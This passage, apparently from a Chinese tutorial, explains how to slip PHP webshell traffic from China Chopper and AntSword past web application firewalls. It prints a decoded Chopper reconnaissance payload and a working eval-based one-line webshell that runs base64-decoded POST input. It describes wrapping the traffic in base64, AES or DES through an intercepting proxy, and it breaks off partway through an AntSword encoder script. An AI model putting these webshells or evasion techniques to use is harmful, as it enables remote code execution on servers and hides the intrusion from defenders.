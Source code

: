 解个码：

```
@ini_set("display_errors", "0");@set_time_limit(0);function asenc($out){return $out;};function asoutput(){$output=ob_get_contents();ob_end_clean();echo "ae2ea";echo @asenc($output);echo "348cb";}ob_start();try{$D=dirname($_SERVER["SCRIPT_FILENAME"]);if($D=="")$D=dirname($_SERVER["PATH_TRANSLATED"]);$R="{$D}    ";if(substr($D,0,1)!="/"){foreach(range("C","Z")as $L)if(is_dir("{$L}:"))$R.="{$L}:";}else{$R.="/";}$R.="    ";$u=(function_exists("posix_getegid"))?@posix_getpwuid(@posix_geteuid()):"";$s=($u)?$u["name"]:@get_current_user();$R.=php_uname();$R.="    {$s}";echo $R;;}catch(Exception $e){echo "ERROR://".$e->getMessage();};asoutput();die();
```

可以看出这个包就是获取当前目录信息和用户的信息。

请求包中出现了很多明显的关键字，如果我们想要混淆应该怎么做呢？下面介绍几种常见的方式。

## 2.1 利用代理中转流量过waf

我们可以使用代理拦截菜刀的包，然后对其进行一些编码解码措施。其原理如下：

![](https://ask.qcloudimg.com/raw/yehe-b343db5317ff8/0ga7v382ok.png)

原理也很简单，我们只需要修改一句话木马的内容为：

```
<?php
class  Test{
    public $name = '';
    function __destruct(){
        @eval("$this->name");
    }
}

$test= new Test();
$c = base64_decode(@$_POST['css']);
// 修改的地方就是上面这行，对参数进行解码之后再执行
$test->name = $c;
?>
```

然后我们只需要编写一个中间人代理脚本（如果有能力写扩展，直接用burpsuite就行了），将请求流量包中的css字段进行base64编码，这样的话请求包中就不会有明显的关键字了。

但是如果base64加解密太明显，还是容易被发现怎么办？aes、des等各种加密方式那么多，只要在一句话木马中写出解码的函数，加密想怎么来怎么来。

如果对相应包也进行了检测，怎么办？有请求包的加密解密，就可以有相应包的加解密啊，同样的，可以在一句话中对结果进行加密后再传输，在流量通过代理的时候进行解密即可。

## 2.2 使用蚁剑自带的编码

中国菜刀客户端已经有很多年不更新了，好用还是依旧好用，但是新的功能没有就很难受了，相比来说蚁剑客户端的可扩展性强多了，其实蚁剑自带编码功能，稍微改进一下，就可以绕过大部分waf检测了。

其原理和中转流量基本类似，只是在客户端就集成了对流量进行加解密的功能。比如在上面的一句话木马中，我们需要在中转代理处对参数进行base64编码，用蚁剑的话，我们只需要写一个编码脚本即可：

```
/**
 * php::b64pass编码器
 * Create at: 2018/10/11 21:40:45
 *
 * 把所有 POST 参数都进行了 base64 编码
 *
 * 适用shell: 
 *
 * <?php @eval(base64_decode($_POST['ant']));?>
 * 
 */

'use strict';

module.exports = (pwd, data) => {
```